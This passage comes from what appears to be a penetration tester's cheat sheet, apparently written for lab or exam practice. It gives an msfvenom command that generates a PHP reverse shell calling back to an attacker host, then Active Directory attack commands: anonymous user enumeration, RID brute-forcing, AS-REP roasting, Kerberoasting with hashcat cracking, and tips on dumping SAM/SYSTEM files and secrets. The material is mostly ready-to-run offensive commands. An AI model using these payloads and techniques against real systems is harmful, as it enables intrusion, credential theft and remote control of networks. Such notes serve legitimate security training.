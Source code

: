 ## PHP
```
msfvenom -p php/reverse_php LHOST=<IP> LPORT=<PORT> -f raw > shell.php
```

# AD

## Tips
- Enumerate all boxes even if there is foothold or admin on one box
- No posining or MITM
- Check secretsdump with all users
- Check if you can access SAM and SYSTEM file as normal user on a box
- Enumerate everything (smb,rdp,winrm etc) when new credentials are found
- Try username and passwords
- Use winpeas to find extra files / passwords even if admin
- Check bloodhound manually with start and end node if none of the queries work

## Mindmap / Methodology
- Check AD mindmap graph [here first](https://mayfly277.github.io/assets/blog/pentest_ad_dark.svg) and [then this](https://orange-cyberdefense.github.io/ocd-mindmaps/img/pentest_ad_dark_2022_11.svg)

## Find Users
```
ridenum <ip> 0 10000 guest ""
enum4linux-ng -A <ip> -u "" -p ""
enum4linux-ng -A <ip> -u "guest" -p ""
enum4linux-ng -A <ip> -u "anonymous" -p ""
netexec smb <IP> -u anonymous -p "" --rid-brute 10000
netexec smb <IP> -u guest -p "" --rid-brute 10000
netexec smb <IP> -u "" -p "" --rid-brute 10000
netexec ldap <IP> -u '' -p '' --password-not-required --admin-count --users --groups` (also try with guest and anonymous)
netexec ldap <IP> -u '' -p '' -M get-desc-users
kerbrute userenum --dc <dc_ip> /home/kali/THM/AD/userlist.txt -d <domain>
```
- LDAPsearch
- rpcclient enumdomusers (guest,anonymous,blank)
- Check websites for usernames

## ASREP
- Try with known users and creds later
```
GetNPUsers.py -dc-ip <IP> -no-pass -usersfile <userfile> <domain>/
impacket-GetNPUsers -request -dc-ip <ip> -usersfile <userfile> <domain>/
hashcat -m 18200 <hash> <wordlist>
```

## Kerberoasting
```
Get-UserSPNs.py <domain>/<user>:<password> -dc-ip <ip> -request
impacket-GetUserSPNs NORTH.SEVENKINGDOMS.LOCAL/jon.snow:iknownothing -dc-ip 192.168.56.11 -request
hashcat -m 13100 <hash> <wordlist>
```
